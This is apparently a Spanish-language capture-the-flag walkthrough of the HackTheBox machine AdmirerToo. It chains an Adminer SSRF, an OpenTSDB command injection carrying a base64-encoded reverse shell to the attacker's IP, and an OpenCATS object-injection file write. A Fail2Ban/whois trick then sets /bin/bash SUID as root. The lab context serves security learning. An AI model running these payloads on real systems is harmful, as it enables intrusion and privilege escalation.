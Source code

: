 # AdmirerToo

Tags: [[_webFuzzing]],[[_webExploitation]],[[_cve]],[[_internalPortAbusing]]

## Primeros pasos
(Reconocimiento).

<span style="color:#07b4f2">Organizamos</span> <span style="color:#ff2dc0">TMUX</span>.
<span style="color:#07b4f2">Activamos</span> <span style="color:#ff2dc0">VPN</span>.

Le <span style="color:#07b4f2">hacemos</span> un <span style="color:#ff2dc0">ping</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina</span>. (<span style="color:#379075">Está activa o no</span>).
<span style="color:#bef202">Posible</span> <span style="color:#ff2dc0">máquina Linux</span>.

<span style="color:#07b4f2">Ponemos</span> la <span style="color:#ff2dc0">IP</span> de la <span style="color:#ff2dc0">máquina</span> <span style="color:#07b4f2">en</span> un <span style="color:#07b4f2">lugar visible</span>.
<span style="color:#07b4f2">Creamos</span> un <span style="color:#07b4f2">directorio</span> <span style="color:#07b4f2">como</span> la <span style="color:#ff2dc0">IP</span> o <span style="color:#07b4f2">nombre</span> de la <span style="color:#ff2dc0">máquina</span>.
<span style="color:#07b4f2">Creamos</span> los <span style="color:#07b4f2">directorios</span> de <span style="color:#07b4f2">trabajo</span>.

<span style="color:#bef202">Empezamos el escaneo con</span> <span style="color:#ff2dc0">NMAP</span>. <span style="color:#379075">Otro escaneo de puertos comunes por posibles falsos negativos</span>.
<span style="color:#07b4f2">Buscamos</span> <span style="color:#ff2dc0">codename</span> con <span style="color:#ff2dc0">launchpad</span>, <span style="color:#bef202">un posible</span> <span style="color:#ecacb6">Debian Buster</span>.

+ <span style="color:#ff669c">Puertos abiertos</span>

<span style="color:#ff669c">22</span> - SSH.
<span style="color:#ff669c">80</span> - HTTP.


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ff669c">22</span>.
<span style="color:#07b4f2">No tengo</span> <span style="color:#ff2dc0">credenciales</span> válidas.

<span style="color:#07b4f2">Probamos</span> <span style="color:#ecacb6">admirer_ro:1w4nn4b3adm1r3d2%21</span> pero nada.
<span style="color:#bef202">Vamos al 80</span>.


<span style="color:#ff669c">80</span>.
<span style="color:#ff2dc0">whatweb</span>.  <span style="color:#07b4f2">No</span> me dice <span style="color:#07b4f2">mucho</span>.
Desde la <span style="color:#ff2dc0">web</span>.
Hay imágenes, <span style="color:#ff2dc0">directory listing</span>
<span style="color:#ecacb6">/img</span> 

<span style="color:#07b4f2">Apartado</span> de <span style="color:#07b4f2">enviar mensaje</span>, hacemos <span style="color:#07b4f2">pruebas</span> pero <span style="color:#07b4f2">nada</span>.

<span style="color:#ff2dc0">Fuzzear</span> por recursos, al <span style="color:#07b4f2">probar</span> con un <span style="color:#ff2dc0">directorio</span> <span style="color:#07b4f2">erróneo</span>, vemos el <span style="color:#ecacb6">Not Found</span>, y en un mensaje <span style="color:#07b4f2">vemos</span> un <span style="color:#ff2dc0">dominio</span>
<span style="color:#ecacb6">admirer-gallery.htb</span>
Lo <span style="color:#07b4f2">metemos en</span> el <span style="color:#ecacb6">/etc/hosts</span>, pero <span style="color:#07b4f2">no cambia nada</span>.
El <span style="color:#ff2dc0">fuzzear</span> por <span style="color:#ff2dc0">recursos</span> <span style="color:#07b4f2">no</span> nos da <span style="color:#07b4f2">mucho</span>, pero <span style="color:#07b4f2">por</span> <span style="color:#ff2dc0">subdominios</span> sí, obtenemos
<span style="color:#ecacb6">db.admirer-gallery.htb</span>
Lo <span style="color:#07b4f2">metemos en</span> el <span style="color:#ecacb6">/etc/hosts</span>

<span style="color:#ecacb6">db.admirer-gallery.htb</span> :    desde la <span style="color:#ff2dc0">web</span>.
<span style="color:#ff2dc0">Adminer 4.7.8</span>
Hay un <span style="color:#ff2dc0">Login</span>, pero al <span style="color:#07b4f2">darle</span> a <span style="color:#ff2dc0">login</span>, <span style="color:#07b4f2">por detrás</span> ya <span style="color:#07b4f2">me</span> <span style="color:#ff2dc0">autentica</span>, interceptamos la <span style="color:#ff2dc0">petición</span> y vemos <span style="color:#ff2dc0">credenciales</span>.
<span style="color:#ecacb6">admirer_ro:11w4nn4b3adm1r3d2!</span> <span style="color:#bef202">vamos al 22</span>.
<span style="color:#07b4f2">Volvemos</span>.

<span style="color:#07b4f2">Buscamos</span> por <span style="color:#ff2dc0">vulnerabilidades</span> en <span style="color:#ff2dc0">Admirer</span> y <span style="color:#07b4f2">vemos</span> que hablan de <span style="color:#ff2dc0">SSRF</span>.
<span style="color:#ff2dc0">Repositorio</span>.
https://github.com/vrana/adminer 
<span style="color:#07b4f2">Buscamos</span> en Internet <span style="color:#ecacb6">vrana admirer ssrf elasticsearch</span> (<span style="color:#379075">vi algo de elasticsearch</span>) y llegamos a 
https://github.com/vrana/adminer/security/advisories/GHSA-x5r2-hj5c-8jx6
Nos <span style="color:#07b4f2">dan</span> un <span style="color:#ff2dc0">script</span> https://gist.github.com/bpsizemore/227141941c5075d96a34e375c63ae3bd para <span style="color:#ff2dc0">montar</span> un <span style="color:#ff2dc0">servidor</span> y <span style="color:#07b4f2">obtener</span> la <span style="color:#ff2dc0">petición</span> <span style="color:#07b4f2">de</span> <span style="color:#ff2dc0">SSRF</span>.
Se hacen <span style="color:#07b4f2">cosas en</span> el <span style="color:#ff2dc0">login</span>, pero <span style="color:#07b4f2">nosotros</span> lo <span style="color:#07b4f2">haremos</span> <span style="color:#ff2dc0">interceptando</span> la <span style="color:#ff2dc0">petición</span> para <span style="color:#07b4f2">cambiar</span> los <span style="color:#07b4f2">valores</span>.
<span style="color:#07b4f2">Buscamos</span> en Internet <span style="color:#ecacb6">auth = elast in adminer</span> y encontramos <span style="color:#ecacb6">https://github.com/WikiSuite/adminer-elasticsearch/blob/master/adminer-elasticsearch.php</span>, donde <span style="color:#07b4f2">se ve el valor</span> de "<span style="color:#ecacb6">elastic</span>", que <span style="color:#07b4f2">es el que hay que poner</span> en <span style="color:#ecacb6">auth</span> del <span style="color:#ff2dc0">login</span> de <span style="color:#ff2dc0">Adminer</span>.

<span style="color:#bef202">Llevarlo a cabo</span>.
+Intercepto <span style="color:#ff2dc0">petición</span> del <span style="color:#ff2dc0">login</span> y <span style="color:#07b4f2">coloco</span>
<span style="color:#ecacb6">auth[driver]=elastic&auth[server]=10.10.14.15</span> 
Y <span style="color:#07b4f2">también</span> todo <span style="color:#07b4f2">lo demás</span>, claro.

+Ejecuto el <span style="color:#ecacb6">redirect.py</span> con <span style="color:#ff2dc0">python2</span>
<span style="color:#88c425">python redirect.py -p 80 -i 10.10.14.15 http://10.10.11.137</span>
<span style="color:#ecacb6">-p 80</span> es el <span style="color:#ff669c">puerto</span> donde <span style="color:#ff2dc0">monto</span> mi <span style="color:#ff2dc0">server</span>.
<span style="color:#ecacb6">-i</span> <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">IP</span> para <span style="color:#ff2dc0">montar</span> el <span style="color:#ff2dc0">server</span>.
<span style="color:#ecacb6">http://10.10.11.137</span> es la <span style="color:#ff2dc0">URL</span> <span style="color:#07b4f2">a la que redirijo</span> la <span style="color:#ff2dc0">petición</span> (<span style="color:#379075">para conseguir su contenido, o mejor dicho, hacerle una petición y como resultado obtenemos su contenido</span>).
<span style="color:#bef202">Importante</span>.
Si quiero <span style="color:#07b4f2">cargar</span> un <span style="color:#ff2dc0">recurso</span> <span style="color:#07b4f2">mío</span>, <span style="color:#07b4f2">como</span> <span style="color:#ff2dc0">URL Redirect</span>, debo <span style="color:#07b4f2">poner mi</span> <span style="color:#ff2dc0">URL</span> pero <span style="color:#07b4f2">de otro</span> <span style="color:#ff2dc0">servidor</span> <span style="color:#07b4f2">que</span> <span style="color:#ff2dc0">monte</span>, <span style="color:#07b4f2">por otro</span> <span style="color:#ff669c">puerto</span>.

De esta manera, <span style="color:#07b4f2">en</span> el <span style="color:#ff2dc0">login</span> de <span style="color:#ff2dc0">Adminer</span> <span style="color:#07b4f2">vemos</span> el <span style="color:#07b4f2">contenido</span> de la <span style="color:#ff2dc0">URL</span> <span style="color:#07b4f2">a la que redirigí </span>la <span style="color:#ff2dc0">petición</span>.

Al <span style="color:#07b4f2">investigar</span> vimos que <span style="color:#07b4f2">hablaban</span> de <span style="color:#ff2dc0">enumerar</span> <span style="color:#ff669c">puertos</span> <span style="color:#07b4f2">internos</span> del <span style="color:#ff2dc0">sistema</span>, e igualmente, <span style="color:#07b4f2">siempre</span> que haya un <span style="color:#ff2dc0">SSRF</span>, debemos <span style="color:#07b4f2">pensar</span> en un <span style="color:#ff2dc0">Internal Port Discovery</span>.
Como son <span style="color:#07b4f2">muchos</span> <span style="color:#ff669c">puertos</span>, podemos <span style="color:#ff2dc0">enumerar</span> con <span style="color:#ff2dc0">NMAP</span> los <span style="color:#ff669c">puertos</span> <span style="color:#ecacb6">filtered</span> (<span style="color:#379075">basta con quitar --open</span>), y tratar sobre ellos.
Contamos con el <span style="color:#ff669c">puerto 4242</span>.
Realizamos los <span style="color:#07b4f2">pasos anteriores</span> para <span style="color:#07b4f2">identificar</span> de <span style="color:#07b4f2">qué se trata</span>, y <span style="color:#07b4f2">vemos</span> su <span style="color:#ff2dc0">contenido</span>.

<span style="color:#ff2dc0">Open TSDB</span>
Investigando <span style="color:#07b4f2">encontramos</span> acerca de <span style="color:#ff2dc0">Unauthenticated Command Injection.</span>
Encontramos https://github.com/OpenTSDB/opentsdb/issues/2051, donde nos dan un <span style="color:#07b4f2">ejemplo</span> de <span style="color:#ff2dc0">payload</span>.

<span style="color:#bef202">Llevarlo a cabo</span>.
Tenemos que <span style="color:#07b4f2">llegar al</span> <span style="color:#ff669c">4242</span> a <span style="color:#07b4f2">través</span> del <span style="color:#ff2dc0">SSRF</span>.
+Intercepto <span style="color:#ff2dc0">petición</span> del <span style="color:#ff2dc0">login</span> y <span style="color:#07b4f2">coloco</span>
<span style="color:#ecacb6">auth[driver]=elastic&auth[server]=10.10.14.15</span> 
Y <span style="color:#07b4f2">también</span> todo <span style="color:#07b4f2">lo demás</span>, claro.

+Ejecuto el <span style="color:#ecacb6">redirect.py</span> con <span style="color:#ff2dc0">python2</span>
<span style="color:#88c425">python redirect.py -p 80 -i 10.10.14.15 "http://10.10.11.137:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('ping+-c+1+10.10.14.15')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"</span>
Pero en la <span style="color:#ff2dc0">web</span> <span style="color:#07b4f2">vemos errores</span>, vamos a <span style="color:#07b4f2">solucionarlos</span>.
Error: <span style="color:#ecacb6">No such name for 'metrics': 'sys.cpu.nice'</span> 
<span style="color:#07b4f2">Buscamos</span> en Internet <span style="color:#ecacb6">list metrics opentsdb</span> y encontramos
https://stackoverflow.com/questions/18396365/opentsdb-get-all-metrics-via-http, vemos la <span style="color:#07b4f2">forma</span> de <span style="color:#07b4f2">listarlas</span>.
+Ejecuto el <span style="color:#ecacb6">redirect.py</span> con <span style="color:#ff2dc0">python2</span>
<span style="color:#88c425">python redirect.py -p 80 -i 10.10.14.15 "http://10.10.11.137:4242/api/suggest?type=metrics&max=20"</span> 
En la <span style="color:#ff2dc0">web</span> <span style="color:#07b4f2">vemos</span> una <span style="color:#ff2dc0">metric</span> <span style="color:#ecacb6">http.stats.web.hits</span>

+<span style="color:#07b4f2">Repetimos</span> lo mismo, pero ahora <span style="color:#07b4f2">en</span> la <span style="color:#ff2dc0">URL Redirect</span>, en lugar de <span style="color:#ecacb6">sum:sys.cpu.nice</span> ponemos <span style="color:#ecacb6">sum:http.stats.web.hits</span>

Y <span style="color:#07b4f2">recibimos</span> los <span style="color:#ff2dc0">ping</span>, entonces solo <span style="color:#07b4f2">haría falta cambiar</span> la parte de <span style="color:#ecacb6">[33:system('touch/tmp/poc.txt')]</span>
Recordemos que <span style="color:#07b4f2">debe estar</span> en <span style="color:#ff2dc0">URL encode</span>.
<span style="color:#ecacb6">[33:system('echo+YmFzaCAtYyAnYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNS80NDMgMD4mMScK|base64+-d|bash')]</span> 
Los <span style="color:#ecacb6">+</span> <span style="color:#07b4f2">en</span> el <span style="color:#ff2dc0">base64</span> (<span style="color:#379075">reverse shell</span>) están en <span style="color:#ff2dc0">Hex</span>, <span style="color:#ecacb6">%2B</span>
<span style="color:#07b4f2">Utilizamos</span> el <span style="color:#ff2dc0">payload</span> y pa deeentro.


## Escalada

Enumerar todo el sistema.
<span style="color:#ecacb6">Usuarios</span> válidos a <span style="color:#ff2dc0">nivel</span> de <span style="color:#ff2dc0">sistema</span>.
<span style="color:#ecacb6">root</span>
<span style="color:#ecacb6">jennifer</span>
<span style="color:#ecacb6">opentsdb</span> -> como el que estoy.

<span style="color:#07b4f2">Recordemos</span> que teníamos <span style="color:#ff2dc0">credenciales</span> de <span style="color:#07b4f2">antes</span>, pero <span style="color:#07b4f2">nada</span>.

Busquemos los <span style="color:#ff2dc0">archivos</span> de los <span style="color:#ff2dc0">servidores web</span>.
En <span style="color:#ecacb6">/var/www/adminer/plugins/data/servers.php</span> vemos <span style="color:#ff2dc0">credenciales</span>. <span style="color:#07b4f2">Probamos</span> y
<span style="color:#ecacb6">jennifer:bQ3u7^AxzcB7qAsxE3</span>

Vemos <span style="color:#ff669c">puertos</span> <span style="color:#ff2dc0">internos</span>, e identificamos el <span style="color:#ff669c">8080</span>
Le hacemos un <span style="color:#ff2dc0">curl</span> y tiene <span style="color:#07b4f2">contenido</span>, nos <span style="color:#07b4f2">lo traemos con</span> el mismo <span style="color:#ff2dc0">SSH</span> y un <span style="color:#ff2dc0">Local Port Forwarding</span>.

<span style="color:#ff2dc0">OpenCATS</span>.
Estamos en un <span style="color:#ff2dc0">login</span>, probamos <span style="color:#ecacb6">jennifer:bQ3u7^AxzcB7qAsxE3</span> y <span style="color:#07b4f2">entramos</span> y es la versión <span style="color:#ecacb6">0.9.5.2</span>
<span style="color:#07b4f2">Investigando</span> vemos <span style="color:#07b4f2">cosas</span> de <span style="color:#ff2dc0">RCE</span>, <span style="color:#ff2dc0">Object Injection</span>.
Llegamos a https://snoopysecurity.github.io/posts/09_opencats_php_object_injection/, <span style="color:#379075">de Object Injection</span>.
Hay que <span style="color:#07b4f2">utilizar</span> <span style="color:#ff2dc0">phpggc</span>, https://github.com/ambionics/phpggc

<span style="color:#07b4f2">Antes</span> de llevarlo a cabo, <span style="color:#07b4f2">entendamos quién</span> <span style="color:#ff2dc0">corre</span> el <span style="color:#ff2dc0">server</span>, los <span style="color:#ff2dc0">archivos</span> de los que es <span style="color:#07b4f2">propietario</span>, etc.
<span style="color:#88c425">find / -name "*opencats*" 2>/dev/null</span> :    vemos <span style="color:#ecacb6">/etc/apache2-opencats </span>
<span style="color:#88c425">cat apache2.conf | grep -v "^#" | sed '/^\s*$/d'</span> :    vemos que <span style="color:#ecacb6">devel</span> está como <span style="color:#07b4f2">usuario</span> y <span style="color:#07b4f2">grupo</span>, es quien <span style="color:#ff2dc0">corre</span> el <span style="color:#ff2dc0">OpenCATS</span>. <span style="color:#07b4f2">Existe en</span> el <span style="color:#ff2dc0">sistema</span>.

<span style="color:#88c425">find / -group devel -type d 2>/dev/null</span>
<span style="color:#ecacb6">/usr/local/src</span>
<span style="color:#ecacb6">/usr/local/etc</span>
<span style="color:#379075">Podemos probar en alguna de estas para escribir un archivo</span>.

<span style="color:#bef202">Llevarlo a cabo</span>.
+<span style="color:#ff2dc0">Ejecutar phpggc</span>.
<span style="color:#88c425">./phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/test.txt test.txt</span> :    <span style="color:#07b4f2">me da</span> un "<span style="color:#ecacb6">payloadSerialized</span>".
<span style="color:#ecacb6">usr/local/etc/test.txt</span> es el <span style="color:#07b4f2">archivo</span> a <span style="color:#07b4f2">crear en</span> la <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#ecacb6">test.txt</span> es un <span style="color:#07b4f2">archivo local</span> en <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.

+Hacemos una <span style="color:#ff2dc0">petición</span> estando <span style="color:#ff2dc0">autenticado</span> <span style="color:#07b4f2">a</span>
<span style="color:#ecacb6">http://localhost:8686/index.php?m=activity&parametersactivity%3AActivityDataGrid="payloadSerialized"</span>
Se <span style="color:#07b4f2">crea</span> el <span style="color:#ff2dc0">archivo</span> con cierto <span style="color:#ff2dc0">formato</span>
<span style="color:#ecacb6">[{"Expires":1,"Discard":false,"Value":"Esto es una prueba\n"}]</span>
Pero ahora, <span style="color:#07b4f2">qué más</span> podemos <span style="color:#07b4f2">hacer</span>?, toca <span style="color:#07b4f2">investigar</span>...
En <span style="color:#ecacb6">/var/log</span> vemos <span style="color:#ecacb6">fail2ban.log</span>


<span style="color:#ff2dc0">Fail2Ban</span>. Se puede <span style="color:#07b4f2">configurar</span> para que cuando <span style="color:#07b4f2">alguien intente acceder</span> a un <span style="color:#ff2dc0">servicio</span> y se <span style="color:#07b4f2">equivoque</span> varias veces en sus <span style="color:#ff2dc0">credenciales</span>, <span style="color:#07b4f2">se le banee la</span> <span style="color:#ff2dc0">IP</span>.
<span style="color:#07b4f2">Investigando</span> encontramos algo de <span style="color:#ff2dc0">MisConfiguration</span>, de <span style="color:#ff2dc0">RCE</span>.
https://research.securitum.com/fail2ban-remote-code-execution/, <span style="color:#379075">de RCE</span>.
Yo hago un <span style="color:#07b4f2">archivo con</span>
<span style="color:#ecacb6">~! whoami</span>
Y si <span style="color:#07b4f2">hago</span>
<span style="color:#88c425">cat test | /usr/bin/mail -s "whatever" whatever@whatever.com</span> :    se <span style="color:#ff2dc0">ejecuta</span> el <span style="color:#ff2dc0">comando</span>, pero <span style="color:#07b4f2">como</span> el <span style="color:#ecacb6">usuario</span> <span style="color:#07b4f2">actual</span>.
<span style="color:#ecacb6">"whatever"</span> y demás <span style="color:#07b4f2">cosas erróneas</span> es para eso, <span style="color:#07b4f2">ocasionar</span> un <span style="color:#07b4f2">error</span>.

Pero se puede <span style="color:#07b4f2">jugar con más,</span> con el <span style="color:#ff2dc0">whois</span>, esto porque <span style="color:#07b4f2">cuando banean</span> una <span style="color:#ff2dc0">IP</span>, <span style="color:#07b4f2">se le aplica</span> un <span style="color:#ff2dc0">whois</span> (<span style="color:#379075">lo vemos en el actionban = ...</span>).
Investigando, buscamos <span style="color:#ecacb6">whois.conf</span> y encontramos https://gist.github.com/thde/3890aa48e03a2b551374, es un <span style="color:#07b4f2">ejemplo</span> de cómo se vería el <span style="color:#ecacb6">whois.conf</span> en la <span style="color:#07b4f2">vida real</span>.
<span style="color:#88c425">strace whois 127.0.0.1</span> :    ver a <span style="color:#ff2dc0">bajo nivel</span>, y llegamos a ver una <span style="color:#ff2dc0">llamada</span> <span style="color:#07b4f2">a</span> <span style="color:#ecacb6">/usr/local/etc/whois.conf</span>, que <span style="color:#07b4f2">de primeras no tengo acceso</span> o <span style="color:#07b4f2">no existe</span> pero... <span style="color:#ff9a57">¿nos suena de algo?</span>, es la <span style="color:#ff2dc0">ruta</span> de la que <span style="color:#ecacb6">devel</span> <span style="color:#07b4f2">es</span> <span style="color:#ff2dc0">grupo</span> y en donde <span style="color:#07b4f2">antes logramos escribir</span> un <span style="color:#ff2dc0">archivo</span>, aprovechando el <span style="color:#ff2dc0">Object Injection</span> en <span style="color:#ff2dc0">OpenCATS</span>.

<span style="color:#bef202">La idea</span>.
Aprovechar el <span style="color:#ff2dc0">OpenCATS PHP Object Injection to Arbitrary File Write</span> y <span style="color:#07b4f2">crear</span> un <span style="color:#ecacb6">whois.conf</span> en <span style="color:#ecacb6">/usr/local/etc/</span>, que es donde <span style="color:#ff2dc0">whois llama</span> al <span style="color:#ff2dc0">archivo</span> de <span style="color:#07b4f2">configuración</span>.
Para que al <span style="color:#07b4f2">abusar</span> del <span style="color:#ff2dc0">Fail2Ban</span>, nos <span style="color:#ff2dc0">ejecute</span> un <span style="color:#ff2dc0">comando</span>.

<span style="color:#bef202">Llevarlo a cabo</span>.
+<span style="color:#ff2dc0">Ejecutar phpggc</span>.
<span style="color:#88c425">./phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf whois.conf</span> 
<span style="color:#ecacb6">whois.conf </span>debe tener el <span style="color:#ff2dc0">formato</span> <span style="color:#07b4f2">correcto</span>, como <span style="color:#ecacb6">10.10.14.15 10.10.14.15</span>
<span style="color:#379075">Regex Address</span>

+Hacemos una <span style="color:#ff2dc0">petición</span> estando <span style="color:#ff2dc0">autenticado</span> <span style="color:#07b4f2">a</span>
<span style="color:#ecacb6">http://localhost:8686/index.php?m=activity&parametersactivity%3AActivityDataGrid="payloadSerialized"</span>
Se <span style="color:#07b4f2">crear</span> el <span style="color:#ff2dc0">archivo</span>.

+Ejecutar <span style="color:#ff2dc0">whois</span> en <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#88c425">whois 10.10.14.15</span> :    da error, porque el <span style="color:#ff2dc0">archivo</span> que creamos <span style="color:#07b4f2">tiene</span> un <span style="color:#ff2dc0">formato</span> <span style="color:#07b4f2">raro</span>, pero lo podemos <span style="color:#07b4f2">arreglar</span> <span style="color:#07b4f2">para</span> que la <span style="color:#ff2dc0">regex</span> que <span style="color:#ff2dc0">interpreta</span>, <span style="color:#07b4f2">no moleste</span>.
Principio,<span style="color:#ecacb6"> [asasasda]*hola </span>-> <span style="color:#07b4f2">resulta</span> en "<span style="color:#ecacb6">hola</span>".
<span style="color:#ecacb6">[{"Expires":1,"Discard":false,"Value":"]*10.10.14.15 10.10.14.15\n"}]</span>
Va por buen camino, pero nos <span style="color:#07b4f2">falta quitar</span> lo <span style="color:#07b4f2">último</span>, investigamos el <span style="color:#ff2dc0">código fuente</span> de <span style="color:#ff2dc0">whois</span>, https://github.com/rfc1036/whois
En <span style="color:#ecacb6">whois.c</span> en la <span style="color:#07b4f2">línea 426</span> está una <span style="color:#ff2dc0">función</span> que hay que <span style="color:#07b4f2">entender</span>.
<span style="color:#ecacb6">char buf[512]</span> 
Podríamos <span style="color:#07b4f2">meter 512 espacios</span> para que <span style="color:#07b4f2">no alcance</span> a <span style="color:#07b4f2">llegar</span> al <span style="color:#ff2dc0">salto de línea</span> y <span style="color:#07b4f2">demás</span>.
<span style="color:#88c425">python3 -c 'print("]*10.10.14.15 10.10.14.15" + " "*512)'</span> :    me lo <span style="color:#07b4f2">copio</span> con <span style="color:#07b4f2">todo y espacios</span>.

+Volvemos a <span style="color:#ff2dc0">ejecutar phpggc</span>, esta vez <span style="color:#07b4f2">con</span> el <span style="color:#07b4f2">contenido</span> que <span style="color:#07b4f2">diseñamos arriba</span> para el <span style="color:#ecacb6">whois.conf</span>

+Volvemos a <span style="color:#07b4f2">aplicar</span> el <span style="color:#ff2dc0">Object Injection</span> en <span style="color:#ff2dc0">OpenCATS</span>.

+Volvemos a <span style="color:#ff2dc0">ejecutar</span> el <span style="color:#ff2dc0">whois</span> en <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#07b4f2">Me pongo</span> en <span style="color:#ff2dc0">escucha</span> por el <span style="color:#ff669c">puerto 43</span> (<span style="color:#379075">ahí opera whois</span>).
<span style="color:#88c425">whois 10.10.14.15</span>
Y ya <span style="color:#07b4f2">recibo</span> la <span style="color:#ff2dc0">petición</span>.

+<span style="color:#ff2dc0">Abusar</span> del <span style="color:#ff2dc0">Fail2Ban</span>.
En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
<span style="color:#07b4f2">Creo</span> un <span style="color:#ff2dc0">archivo</span> con
<span style="color:#ecacb6">Línea necesaria con cualquier cosa</span>
<span style="color:#ecacb6">~! chmod 4755 
/bin/bash</span>
<span style="color:#88c425">nc -nlvp 43</span> < <span style="color:#88c425">pwned</span> :    <span style="color:#07b4f2">pasando</span> el <span style="color:#ff2dc0">archivo</span>.

Ahora, <span style="color:#07b4f2">me tienen que banear</span>, para ello <span style="color:#07b4f2">me</span> <span style="color:#ff2dc0">autentico</span> como <span style="color:#07b4f2">loco</span> por <span style="color:#ff2dc0">SSH</span> hasta que lo hagan, <span style="color:#07b4f2">en este punto</span>, como ya <span style="color:#07b4f2">vimos</span> en el <span style="color:#ecacb6">actionban =</span> ..., <span style="color:#07b4f2">me va a aplicar </span>un <span style="color:#ff2dc0">whois</span>, <span style="color:#07b4f2">recibo</span> la <span style="color:#ff2dc0">petición</span> y <span style="color:#07b4f2">ahí le cuela</span> el <span style="color:#ff2dc0">comando</span>.
Y como <span style="color:#ecacb6">root</span> <span style="color:#07b4f2">aplica</span> las <span style="color:#07b4f2">reglas</span> de <span style="color:#ff2dc0">iptables</span>, el <span style="color:#ff2dc0">comando</span> es <span style="color:#ff2dc0">privilegiado</span>.

<span style="color:#88c425">bash -p</span> y pa deeeentro.
Fin.
